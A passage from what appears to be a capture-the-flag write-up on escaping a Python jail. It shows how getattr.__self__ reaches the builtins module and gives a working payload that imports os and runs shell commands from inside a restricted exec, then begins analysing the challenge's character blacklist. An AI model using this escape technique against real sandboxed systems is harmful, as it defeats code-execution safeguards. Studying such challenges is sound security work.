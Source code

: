 ```py
>>> getattr.__self__
<module 'builtins' (built-in)>
```

{{< notice tip >}}
Tip: __self__ refers to the builtins instance object to which getattr is bound
{{< /notice >}}

Having understood this, we create a proof of concept as follows:

```py
# payload
>>> getattr.__self__.__import__("os").system("echo hello, world!")
hello, world!
0
```

> `getattr` will be refered to as `c`, because that's the name it's been given in the challenge

Nice, if we have no restrictions, we can execute code the following way:

```py
>>> payload = 'c.__self__.__import__("os").system("ls")'
>>> exec(payload,{'__builtins__':{},'c':getattr}) # This is enough right?
... print('Bye!')
...
challenge  playground  README.md
Bye!
```

## Task Analysis

Now that we understand our goal. Let's see how the jail prevents our initial payload from working.

### 1st restriction

```py
blacklist = list("abdefghijklmnopqrstuvwxyz1234567890\\;._")
for i in payload:
    assert ord(i) >= 32
    assert ord(i) <= 127
    assert (payload.count('>') + payload.count('<')) <= 1
    assert payload.count('=') <= 1
    assert i not in blacklist
```

Our payload should:

1. Contain only uppercase printable ASCII ([Unicode confusions](https://util.unicode.org/UnicodeJsps/confusables.jsp?a=flag&r=None) won't work here).
2. Use at most one comparison operator `<` OR `>` ([Shifting Gimmicks](https://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape.html) aren't possible)
3. Use at most one assignment.

The only allowed lowercase character is `c`, we'll see how to use that later.
